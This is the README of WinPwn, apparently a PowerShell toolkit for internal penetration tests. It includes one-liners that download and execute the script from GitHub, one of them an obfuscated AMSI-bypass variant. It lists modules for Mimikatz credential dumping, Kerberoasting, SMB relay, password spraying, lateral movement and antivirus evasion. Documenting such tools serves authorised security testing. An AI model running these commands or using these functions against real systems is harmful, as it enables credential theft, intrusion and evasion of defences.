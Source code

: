 # WinPwn
In many past internal penetration tests I often had problems with the existing Powershell Recon / Exploitation scripts due to missing proxy support. I often ran the same scripts one after the other to get information about the current system and/or the domain. To automate this process and for the proxy reason I wrote my own script with automatic proxy recognition and integration. 
The script is mostly based on well-known large other offensive security Powershell projects. They are loaded into RAM via IEX Downloadstring.

Yes it is not a C# and it may be flagged by antivirus solutions. Windows Defender for example blocks some of the known scripts/functions. Maybe someday a C# Version will follow.

Any suggestions, feedback and comments are welcome!

Just Import the Modules with:
`Import-Module .\WinPwn.ps1` or 
`iex (new-object net.webclient).downloadstring('https://raw.githubusercontent.com/SecureThisShit/WinPwn/master/WinPwn.ps1')`

For AMSI Bypass use the following oneliner:
`iex (new-object net.webclient).downloadstring('https://raw.githubusercontent.com/SecureThisShit/WinPwn/master/ObfusWinPwn.ps1')`

Functions available after Import:
* #### `WinPwn` -> Menu to choose attacks:
![alt text](https://raw.githubusercontent.com/SecureThisShit/WinPwn/master/WinPwn.JPG)
* #### `Inveigh` -> Executes Inveigh in a new Console window , SMB-Relay attacks with Session management (Invoke-TheHash) integrated
* #### `sessionGopher` -> Executes Sessiongopher Asking you for parameters
* #### `Mimikatzlocal` -> Executes Invoke-WCMDump and Invoke-Mimikatz
* #### `localreconmodules` -> 
  * Checks the Powershell event logs for credentials or other sensitive informations
  * Checks for WSUS Server over HTTP (Fake Update vulnerability)
  * Checks the local SMB-Signing state
  * Collects various local system informations (Installed Software + vulnerable software, Shares, privileges, local groups, network information
  * Searches for passwords in the registry as well as in files on the hard disk + Browser Credentials
  * Search for .NET Binaries on the local system (which can be reverse engineered for vulnerability analysis) 
  * Optional: Get-Computerdetails (Powersploit) , Just another Windows Privilege escalation script, Winspect
* #### `JAWS` -> Just another Windows Privilege Escalation script
* #### `domainreconmodules` -> 
  * Powerview function output gets stored on disk for review. 
  * A search for AD-Passwords in description fields is done. 
  * Unconstrained delegation systems/users are enumerated. 
  * SQL Server discovery and Auditing functions (default credentials, passwords in the database and more).
  * MS-RPRN Check for Domaincontrollers
  * An AD-Report is generated in CSV Files (or XLS if excel is installed) with ADRecon. 
* #### `Privescmodules` -> Executes different privesc scripts in memory (PowerUp Allchecks, Sherlock, GPPPasswords)
* #### `lazagnemodule` -> Downloads and executes lazagne.exe (if not detected by AV) 
* #### `latmov` -> Searches for Systems with Admin-Access in the domain for lateral movement. Mass-Mimikatz can be used after for the found systems. DomainPassword-Spray for new Credentials can also be used here.
* #### `empirelauncher` -> Launch powershell empire oneliner on remote Systems
* #### `shareenumeration` -> Invoke-Filefinder and Invoke-Sharefinder (Powerview / Powersploit)
* #### `groupsearch` -> Get-DomainGPOUserLocalGroupMapping - find Systems where you have Admin-access or RDP access to via Group Policy Mapping (Powerview / Powersploit)
* #### `Kerberoasting` -> Executes Invoke-Kerberoast in a new window and stores the hashes for later cracking
* #### `powerSQL` -> SQL Server discovery, Check access with current user, Audit for default credentials + UNCPath Injection Attacks
* #### `Sharphound` -> Downloads Sharphound and collects Information for the Bloodhound DB
* #### `adidnswildcard` -> Create a Active Directory-Integrated DNS Wildcard Record and run Inveigh for mass hash gathering.
* #### `MS17-10` -> Scan active windows Servers in the domain or all systems for MS17-10 (Eternalblue) vulnerability

The submodule is a forked and edited version of https://github.com/Cn33liz/p0wnedShell. You can compile it yourself and use it for powershell restriction bypass and AMSI-Bypass. Most AV-Solutions can be evaded this way. Just run the executable File, choose 17. and execute WinPwn.

![alt text](https://raw.githubusercontent.com/SecureThisShit/WinPwn/master/p0wnedmenu.PNG)

![alt text](https://raw.githubusercontent.com/SecureThisShit/WinPwn/master/p0wned.png)

## TO-DO
- [x] Some obfuskation
- [ ] More obfuscation
- [ ] Proxy via PAC-File support
- [x] Get the scripts from my own creds repository (https://github.com/SecureThisShit/Creds) to be independent from changes in the original repositories
- [ ] More Recon/Exploitation functions
- [ ] msDS-AllowedToActOnBehalfOfOtherIdentity Ressource based constrained delegation
- [x] Add MS17-10 Scanner
- [x] Add menu for better handling of functions
- [x] Amsi Bypass

![alt text](https://raw.githubusercontent.com/SecureThisShit/WinPwn/master/Pwn.png)

## CREDITS

- [X] [Kevin-Robertson](https://github.com/Kevin-Robertson/) - Inveigh, Powermad, Invoke-TheHash
- [X] [Arvanaghi](https://github.com/Arvanaghi/) - SessionGopher
- [X] [PowerShellMafia](https://github.com/PowerShellMafia/) - Powersploit
- [X] [Dionach](https://github.com/Dionach/) - PassHunt
- [X] [A-mIn3](https://github.com/A-mIn3/) - WINSpect
- [X] [411Hall](https://github.com/411Hall/) - JAWS
- [X] [sense-of-security](https://github.com/sense-of-security/) - ADrecon
- [X] [dafthack](https://github.com/dafthack/) - DomainPasswordSpray
- [X] [rasta-mouse](https://github.com/rasta-mouse/) - Sherlock
- [X] [AlessandroZ](https://github.com/AlessandroZ/) - LaZagne
- [X] [samratashok](https://github.com/samratashok/) - nishang
- [X] [leechristensen](https://github.com/leechristensen/) - Random Repo
- [X] [HarmJ0y](https://github.com/HarmJ0y) - Many good Blogposts, Gists and Scripts
- [X] [NETSPI](https://github.com/NetSPI/) - PowerUpSQL
- [X] [Cn33liz](https://github.com/Cn33liz/) - p0wnedShell
- [X] [rasta-mouse](https://github.com/rasta-mouse/) - Amsi AmsiScanBufferBypass

## Legal disclaimer:
Usage of WinPwn for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program. Only use for educational purposes.
